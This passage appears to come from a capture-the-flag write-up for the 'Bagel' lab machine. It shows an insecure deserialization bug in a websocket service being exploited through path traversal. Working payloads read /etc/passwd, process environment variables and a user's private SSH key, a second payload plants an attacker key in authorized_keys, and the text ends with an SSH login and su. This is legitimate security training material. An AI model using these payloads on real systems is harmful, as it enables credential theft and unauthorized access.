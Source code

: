 ##### Unrestricted File Read

The _ReadFile_ property takes the location of the intended directory (`/opt/bagel/orders/`{:.filepath}) and directly concatenates it with the value from the _set_ statement. This could be abused using the `../`{:.filepath} sequence to read any available file under the context of the current process. Let's put everything together and try to read `/etc/passwd`{:.filepath}.

All this payload should do is specify the object class as *bagel_server.File* by setting the *$type* key to the appropriate value, and pass the file path to the *ReadFile* property.

```bash
# bryan@attacker
type="bagel_server.File, bagel" # in the format `class, assembly`
read="../../../etc/passwd" # read this file
wscurl "ws://bagel.htb:5000" -d '{"RemoveOrder":{"$type":"'$type'","ReadFile":"'$read'"}}'
```
{:.nolineno}

The contents are successfully returned in the value of _ReadFile_. Now let's read something a bit more interesting like the process environment variables.

```bash
# bryan@attacker
read="../../../proc/self/environ" # read this file
wscurl "ws://bagel.htb:5000" -d '{"RemoveOrder":{"$type":"'$type'","ReadFile":"'$read'"}}'
```
{:.nolineno}

The _USER_ environment variable tells us that this process is running as the user **phil**. Knowing the process user, we request `/home/phil/.ssh/id_rsa`{:.filepath} which yields phil's private SSH key.

##### Unrestricted File Write (Extra Credit)

It turns out, we can also use the insecure deserialization to write files as _phil_. This is possible because we can make _ReadFile_ change the filename property before _WriteFile_ accesses it. If we pack an assignment to _ReadFile_ then _WriteFile_ into a single object, we can effectively overwrite files with content of our choice.

```bash
# bryan@attacker
public=$(cat ~/.ssh/id_rsa.pub | cut -d\  -f-2) # Get SSH public key
file="../../../home/phil/.ssh/authorized_keys" # Write to this file
wscurl "ws://bagel.htb:5000" \
  -d '{"RemoveOrder":{"$type":"'$type'","ReadFile":"'$file'","WriteFile":"'$public'"}}'
```
{:.nolineno}

## Privilege Escalation

Now that we have established a proper shell we can check if [the password we found earlier](#hard-coded-credentials) is valid on any accounts.

```bash
# bryan@attacker
chmod 600 phil_id_rsa 
ssh -i phil_id_rsa phil@bagel.htb
```
{:.nolineno}
```bash
# phil@bagel.htb (SSH)
su developer
```
{:.nolineno}
